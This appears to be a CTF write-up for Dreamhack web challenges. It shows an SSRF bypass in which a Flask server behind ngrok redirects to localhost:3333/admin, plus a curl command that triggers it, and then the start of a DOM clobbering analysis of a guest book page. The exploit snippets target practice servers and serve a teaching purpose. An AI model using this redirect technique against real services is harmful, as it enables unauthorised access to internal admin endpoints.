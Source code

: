 ## Crawling

Reading through the code I summed up all the conditions to get to the `/admin/` endpoint.

### WHAT WE NEED

- A publicly avaialable, global address.
- A referer header that is not localhost or 127.0.0.1
- An ip that is not local.

### Final exploit

We make a quick server and make a tunnel to it with `ngrok`. The server will redirect to the `/admin` endpoint with `http://localhost:3333/admin`.
I used a simple flask server ( we can just use a html page too )

```py
@app.route('/')
def index():
    return redirect("http://localhost:3333/admin",code=302)
```

```bash
curl http://host3.dreamhack.games:20548/validation?url=NGROK_HTTP_URL
```

## LEVEL6 Guest book

### Summary

- DOM CLOBBERING + PATH Manipulation to ressource loading failure.

### We go this part from `utils.php`

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}
?>
```

That means we can create `<a>` at will, no point on trying to XSS because the input is being sanitized. So we should think about smthing else:

at the end of the html we can find a `<script>` tag where we will have a very interesting thing going. 

```js
<script src="config.js"></script>
<script>
  if(window.CONFIG && window.CONFIG.debug){
    location.href = window.CONFIG.main;
  }
</script> 
```
